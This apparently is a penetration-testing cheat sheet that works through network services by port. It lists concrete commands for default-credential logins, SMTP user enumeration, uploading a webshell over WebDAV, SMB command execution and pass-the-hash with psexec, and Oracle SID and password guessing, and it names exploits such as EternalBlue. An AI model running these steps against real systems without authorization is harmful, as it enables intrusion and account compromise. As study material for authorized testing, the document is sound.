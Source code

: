 # Network Services Exploitation

## 21 - FTP

* Login with `ftp <ip>`
* Check anonymous login (with nmap script ftp-anon or anonymous user)
  * ```sh
    # User:password
    anonymous:anonymous
    anonymous:
    ftp:ftp
    ```
* Brute force login
* Search exploit for vulnerable version

## 22 - SSH

* Login with `ssh <username>@<ip>`
* Brute force login
* Search exploit for vulnerable version

Suggestion: if you use kali it is configured for Strong Security. You can easily configure "wide compatibility" (legacy key exchange algorithms and old ciphers enabled) with `kali-tweaks`  -> Hardening menu -> Wide Compatibility. More info: [https://www.kali.org/docs/general-use/ssh-configuration/#ssh-client-wide-compatibility-vs-strong-security](https://www.kali.org/docs/general-use/ssh-configuration/#ssh-client-wide-compatibility-vs-strong-security)

## 25 - SMTP

* Search exploit for vulnerable version
* Retrieve the hostname of the server (domain name)
  * ```sh
    francesco@debian:~$ nc <ip> <port>
    220 openmailbox.xyz ESMTP Postfix: Welcome.    # here (in the banner)
    helo whatyouwant                               # helo command
    250 openmailbox.xyz                            # here
    ```
* Username Bruteforce
  * Automation:
    * `smtp-user-enum -U <wordlist> -t <ip>`
  *   Manual

      ```sh
      francesco@debian:~$ nc <ip> <port>
      220 openmailbox.xyz ESMTP Postfix: Welcome.
      VRFY  root
      252 2.0.0 root                                 # Output if user exists
      VRFY  idontexists
      550 5.1.1 <idontexists>: Recipient address rejected: User unknown in local recipient table
      ```
  * NOTE: there are other command you can use such as `RCPT TO`

## 80 - WebDav

* With WebDav you can upload file. Normally it's necessary credentials
  * Bruteforce (it's simple HTTP Basic Authentication)
* You can automate the upload and execution of file
  * davtest
    * ```sh
      # Check what file type is executed
      davtest -auth <user>:<password> -url http://<ip>/<webdav_path>
      # Upload file
      davtest --url http://<ip>/<webdav_path> -auth <user>:<password> -uploadfile webshell.asp -uploadloc /destination/webshell.asp
      ```
  * cadaver
    * `cadaver http://<ip>/<webdav_path>` and then login. PUT command to upload a file/shell\\

## 80 - PHP

* Famous exploit: php\_cgi\_arg\_injection (up to version 5.3.12 and 5.4.2 )

## 139/445 - SMB | Samba

* List shared folders
  * `smbclient --no-pass -L //<ip>` Null user
  * `smbclient -U 'username[%passwd]' -L [--pw-nt-hash] //<ip>` If you omit the pwd, it will be prompted. With --pw-nt-hash, the pwd provided is the NT hash
    * Example: `smbclient -U 'admin%admin' -L //<ip>`
* Obtain Information
  * `enum4linux -a [-u "<username>" -p "<passwd>"] <ip>`
  * **NOTE: you can enumerate users!**
* Command execution (authenticated)
  * `smbmap -H <ip> -u <user> -p <pass> -x 'ipconfig'`
  * psexec (impacket or metasploit)
    * can be used to pass NT hashes as password
    * `python3 psexec.py Administrator@ip`
* Brute force login
* Search exploit for vulnerable version
* If v1 is enabled - EternalBlue exploit (check with nmap -> smb-protocols)

## 1521,1522,1529 - ORACLE DB

<details>

<summary>INTRODUCTION</summary>

In Oracle DB a **SID** is specific to a database, it is unique in an environment and 'points' to one, and only one, database in an environment. A **service name** can be associated with one or more SIDs.

In a RAC environment where each instance is uniquely named yet all can be accessed through the SERVICE\_NAME. \[Oracle Real Application Cluster (**RAC**) is a "share-everything" database architecture in which two or more Oracle RAC nodes are clustered together and share the same memory]

```
SID        SERVICE_NAME
test1      test
test2      test
```

All of those SIDs can be associated with the SERVICE\_NAME test, and if load balancing is configured, the listener will 'balance' the workload across all SIDs. However, if you want, you can connect to test1, you just need to NOT use the SERVICE\_NAME and use the SID.

</details>

```sh
# Oracle DB version
odat tnscmd -s <ip> --version

# Search valid SIDs (with default wordlist and bruteforce [default max-size 2 chars])
odat sidguesser -s <ip>

# Search valid SIDs with custom sids wordlist
odat sidguesser -s <ip> --sids-file sids.txt

# Search valid SNs (with default wordlist and bruteforce [default max-size 2 chars])
odat snguesser -s <ip>

# Search valid SNs with custom SNs wordlist
odat snguesser -s <ip> --service-name-file sn.txt
```

Find user credentials

* \[CVE-2012-3137] You need a valid SID and Oracle DB version is one of this (10.2.0.3, 10.2.0.4, 10.2.0.5, 11.1.0.7, 11.2.0.2,  11.2.0.3) you can obtain the session key and salt for arbitrary users.&#x20;
* \[Guess password] You need SID or SN

<pre class="language-sh"><code class="lang-sh"><strong># Guess password with SID/SN using default odat credentials
</strong>odat passwordguesser -s &#x3C;ip> -d &#x3C;SID>
odat passwordguesser -s &#x3C;ip> -n &#x3C;SN>
</code></pre>

## 3306 - MYSQL

```sh
# Local without pass
mysql -u root
# Local with pass
mysql -u root -p
# Remote without pass
mysql -h <hostname> -u root
# Remote with pass
mysql -h <hostname> -u root -p 
```

* Brute force login
  * Try with `root` default user

## 3389 - RDP

* Connect to RDP `xfreerdp /v:<ip> /u:<username> /p:<password>`
* Brute force login
* Search exploit for vulnerable version
* If you are not sure that specific port runs rdp you can check with `auxiliary/scanner/rdp/rdp_scanner` or try to connect with xfreerdp

## 5985,5986 - WinRM

* If you have a username try using it as password
* Brute force login

## Other ports

Most of the services identified by the Nmap scan are easily recognizable, however, it's possibile that there are a few open ports on a target system that do not have a service banner. To learn more about these port and the service running, we can perform banner grabbing with Netcat

* `netcat <ip> <port>`
